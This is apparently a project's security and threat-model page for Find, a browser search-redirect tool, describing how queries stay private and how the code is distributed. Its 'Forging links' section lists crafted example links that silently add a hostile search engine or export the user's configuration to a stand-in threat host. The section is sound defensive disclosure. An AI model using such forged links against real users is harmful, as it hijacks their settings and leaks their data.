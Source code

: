 # Security
This document should (tries to) describe the security model followed
by Find; what should make it privacy friendly, how a user query is
kept private, and only shared with the destination site.

## Contact
Please get in touch over the matrix chat if you have any security
concerns.

## Disclaimer(s)
Naturally, one needs to trust all the destinations site in the list,
and the people choosing them.

There is the possibility that a user "misstypes a search", calling "an
other engine and symbol than expected"; which will result in sharing
the query with the destination URL.

I don't think this is a security risk, but a concern to be sure "what
we're typing", and what it is doing (also what is the sensitivity of
the user query).

> Also, there lack tests.

## Model
Listing the different areas encompassed by the threat modeling.

> If some areas are missing, we need to implement them.

### Software
- the software is open and free, and can be customized by the users
- logic implemented in a single "small" vanilla javascript file
- the UI is implemented in more files (loaded if the query does not
  result in a URL to open)
- there is no "build step" to execute the code
- there are no dependencies at build and run time (but a web-browser)
- does not store or share user data (other than the user
  customization, if any)
- allows export and import of the user configuration as JSON data

### Infrastructure
- the software is shared on git://github.com/internet4000/find.git
- the demo/"main" instance is hosted on github pages
- the pages are deployed from an action "recipe" workflow
- serveral recipes are shared for user to deploy their own instance
- new github tags deploy a new version of the package to the public
  npm registry (matches the `package.json.version` number)
- user can and are invited to run their own instance
- running a personal instance should be made accessible, maybe 1-click

It should be possible to:
- distribute the code from a (machine) local server or a
  personal server behind a VPN
- make it a browser extension to have the code separated from "the
  real internet", if a user wants
- distribute the code on a "random" or tempory URL, such as an embed
  javascript bookmarklet or a "decentralized storage"

### Distribution
As Javasript (Class, web-components, node.js scripts), HTML, CSS
code:
- main instance demo site https://internet4000.github.io/find
- npm package https://www.npmjs.com/package/i4k-find
- git repository https://github.com/internet4000/find

### Query to Find
- is never shared to other sites or third parties
- is typed in the browser URL address-bar/omnibox, and passed to Find
  if it does not resolve in a "pattern" (URI, reserved keywords), that
  the browser "knows" (`view-source:`, `javascript:`, `https://**`,
  `ftp://` etc.)
- is passed to Find, if it is registered as a _browser protocol
  handler_ (not yet supported)
- is passed to Find, if it is used on an "instance" site, through the
  interface elements (search input, query builder button etc.)
- is passed to Find if it is called as a Javascript module with
  functions
- is passed to find through the URL hash `#` parameter `#q=`, and
  should therefore not be shared with the server hosting Find's code
- can be passed to the search `?` search parameter if the user uses it
  (which is shared to the server, to be acknownledged when using)
- is "read by find" to build a destination URL (or an other Find
  query), and "transformed" by replacing the user patterns
- is shared with a local API endpoint

### Request from Find
How Find uses the resulting URL from a Find query.

#### Query resolving
- Find replaces the current browser page's URL, by the URL that was
  resolved from a user query
- the user query is embeded in this website URL, following the URL
  pattern for the "symbol and engine" that were requested
- resolves in a URI/URL or Find query (interpreted again), and Find
   opens a new browser URL, expected if asked not to in
   `Find(query<String>, open<Boolean>)`
- can result in a `https:` URL proxying other protocol(s) `gopher:`
- can result in a `https:` proxy being used to display, as text,
  unsupported for opening as URL, but usefull, protocols; such as
  `data:<type>` to share data

#### Local API endpoint
> Currently not working when called from a browser URL box, only from
> the the Find UI.

- the `/api/suggestions#q=%s` local endpoint, is built in a
  `service-worker.js` file, served with the site, executed locally
- it is used if a user uses the search UI element(s)
- ff a user has browser search/URL typing suggestions enabled, the
browser shares by default the typing suggestions (each character
change) to the OpenSearch.xml suggestions endpoint
- the Find OpenSearch description, specifies the `#` param for user
  queries to be passed as the `%s` OpenSearch Placeholder
- currently no data is queried externaly from Find by its suggestion
  system (but exploring how to "forward the sugggestions" if a
  destination URL has support for them in their OpenSearch.xml)
- suggestions only consist of Find existing symbols engines (but could
  soon contain "community packages suggestions"; @TODO:beware of user
  generated content when in place)

## Forging links
Malicious actors could be forging links, that a Find user could click.

```txt
https://internet4000.github.io/#q=hello

;; encodeURI('https://internet4000.github.io/#q=<find query>')

https://internet4000.github.io/#& internet4000 find
"https://internet4000.github.io/#&%20internet4000%20find"

https://internet4000.github.io/#q=#add ! d https://test.org/threat/?q={}
https://internet4000.github.io/#q=#add%20!%20d%20https://test.org/threat/?q=%7B%7D"

;; Or more generally if "pipes" and recursive Find come in
#export | <destination_URL>
#export | https://test.org/threat/?q=
;; which would look like
https://internet4000.github.io/#q=#export | https://test.org/threat/?q=
https://internet4000.github.io/#q=#export%20%7C%20https://test.org/threat/?q=
```

We should enforce methods so it does not lead to an unwanted action,
such as changing the user configuration, executing aribtrary code,
opening destination, or transiant URLs, not explicitely aknowledged by
a user.

There was a `window.confirm()` call before executing a `#` command
call, but was removed. Maybe this should be enforced again, for this
and other scenarios.

To mitigate this risk, users could deploy their own instance, to a
"private URL" (either behind a login flow), or "unshared with a random
pattern" (example, deploy from private github repo with name
`my-find-abcd1234` for `<actor>.github.io/my-find-abcd1234`; gitlab
also has "authed private pages for free").

## Notes
Get in touch for any concern, or contribution; this is experimental.
